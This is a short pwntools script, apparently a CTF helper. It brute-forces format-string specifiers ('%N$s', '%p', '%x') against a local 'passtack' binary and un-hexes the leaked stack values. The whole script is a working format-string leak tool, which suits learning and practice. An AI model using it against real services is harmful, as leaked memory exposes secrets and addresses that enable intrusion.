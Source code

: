 ```jsx
#!/usr/bin/env python3
# *~ author: @TheFlash2k

'''
Printing all the specifier's value using PRINTF.
Helps in format string bugs.
'''

from pwn import *
import sys

context.log_level = 'error'

''' Set this to the binary you want to brute-force '''
exe = "passtack"
elf = context.binary = ELF("passtack")

def get_context():
        if args.REMOTE:
                return remote(sys.argv[1], int(sys.argv[2]))
        return process()

''' Set this to the start of the loop '''
INIT_CHECK =0

''' Set this to the max checks you want to run
NOTE: This includes the MAX_CHECK value as well.
'''
MAX_CHECK = 50

''' Print all these specifier's returned value. '''
SPECIFIERS = ['s','p','x'] #SPECIFIERS = ['x','p','lx','s','d']

''' Unhex the output of the following specifiers '''
UNHEX_SPECS = ['x', 'p', 'lx']

f_res = []
for i in range(INIT_CHECK, MAX_CHECK+1):
        res = {}
        res['curr'] = i
        for SPEC in SPECIFIERS:
                try:
                        # io = get_context()
                        io = remote("127.0.0.1",9998)
                        io.sendline(f'|%{i}${SPEC}|'.encode())
                        io.recvline()
                        # io.recvline()
                        io.recvuntil(b'|')
                        buf = io.recvuntil(b'|')[:-1]
                        res[SPEC] = buf
                        if SPEC.lower() in UNHEX_SPECS:
                                if "unhex" not in res.keys(): res["unhex"] = []
                                if res[SPEC][:2] == b"0x": res[SPEC] = res[SPEC][2:]
                                res["unhex"].append({SPEC : unhex(res[SPEC])[::-1]})
                except Exception as E:
                        if SPEC not in res.keys():
                                res[SPEC] = "[ERROR]"
                        pass
        f_res.append(res)
        '''
        The res dictionary will contain everything
        You can control what you want print
        '''
```
